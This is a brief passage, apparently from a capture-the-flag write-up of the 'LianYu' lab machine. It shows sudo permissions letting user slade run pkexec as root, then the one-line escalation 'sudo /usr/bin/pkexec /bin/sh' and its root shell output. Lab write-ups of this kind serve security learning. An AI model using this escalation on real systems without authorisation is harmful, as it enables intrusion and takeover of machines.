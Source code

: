 User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ 
```

<img src="images/gtfo.png">


```
slade@LianYu:~$ sudo /usr/bin/pkexec /bin/sh
# whoami
root
```